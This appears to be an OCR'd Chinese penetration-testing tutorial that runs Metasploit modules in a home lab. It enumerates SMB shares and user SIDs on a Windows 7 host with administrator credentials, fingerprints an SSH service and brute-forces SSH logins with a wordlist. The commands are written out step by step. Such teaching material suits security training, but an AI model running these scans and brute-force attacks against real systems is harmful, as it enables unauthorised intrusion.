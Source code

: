 > ```
> SMB 的模块中基本上都是可以配置用户名和密码的，配置了用户名和密码某些模块扫描的结果会更满足我们的需求。
> 我们到 Windows 中启用一下共享服务。>>新建文件夹 xuegod 并进入该文件夹。>>枚举共享
> msf6 > use auxiliary/scanner/smb/smb_enumshares
> msf6 auxiliary(scanner/smb/smb_enumshares) > show options
> 		$$扫描 192.168.1.53 到 192.168.1.60 的机器$$
> msf6 auxiliary(scanner/smb/smb_enumshares) > set RHOSTS 192.168.1.56
> 		注：如果你不配置用户，就扫描不到信息。配置一下用户信息，我这里用户是默认的管理员用户，密码没有设置。
> msf6 auxiliary(scanner/smb/smb_enumshares) > set SMBUser administrator
> msf6 auxiliary(scanner/smb/smb_enumshares) > set SMBPass 123456
> msf6 auxiliary(scanner/smb/smb_enumshares) > run
> ```

###### 使用 smb_lookupsid 扫描系统用户信息（SID 枚举）

> ```
> 我们在 Win7 上新建一个 xuegod 用户。密码也是 123456。
> 右键计算机→管理→本地用户和组→用户 ，在空白处，右击新建一个用户
> 用户 xuegod 密码： 123456
> 注：SID 是 Windows 中每一个用户的 ID，更改用户名 SID 也是不会改变的。
> msf6 > use auxiliary/scanner/smb/smb_lookupsid
> msf6 auxiliary(scanner/smb/smb_lookupsid) > show options
> msf6 auxiliary(scanner/smb/smb_lookupsid) > set RHOSTS 192.168.1.56
> msf6 auxiliary(scanner/smb/smb_lookupsid) > set SMBUser administrator
> msf6 auxiliary(scanner/smb/smb_lookupsid) > set SMBPass 123456
> msf6 auxiliary(scanner/smb/smb_lookupsid) > run
> ```

##### 基于 SSH 协议收集信息

###### 查看 ssh 服务的版本信息

> ```
> msf6 > use auxiliary/scanner/ssh/ssh_version
> msf6 auxiliary(scanner/ssh/ssh_version) > show options
> msf6 auxiliary(scanner/ssh/ssh_version) > set RHOSTS 192.168.1.180
> msf6 auxiliary(scanner/ssh/ssh_version) > run
> ```

###### 对 SSH 暴力破解

> ```
> msf6 > use auxiliary/scanner/ssh/ssh_login
> msf6 auxiliary(scanner/ssh/ssh_login) > show options
> msf auxiliary(scanner/ssh/ssh_version) > set RHOSTS 192.168.1.180
> 	##设置字典文件默认的字典文件是不满足实际需求的后期我们使用更强大的字典文件。
> msf6 auxiliary(scanner/ssh/ssh_login) > set USERPASS_FILE /usr/share/metasploitframework/data/wordlists/root_userpass.txt
> 	##因为字典文件中不包含我们的用户密码信息我们把自己的密码信息手动加入进去以便展示效果
> 	##新开一个终端窗口
> echo "msfadmin msfadmin" >> /usr/share/metasploitframework/data/wordlists/root_userpass.txt
> 	回到 MSF 终端
> msf6 auxiliary(scanner/ssh/ssh_login) > run
> ```
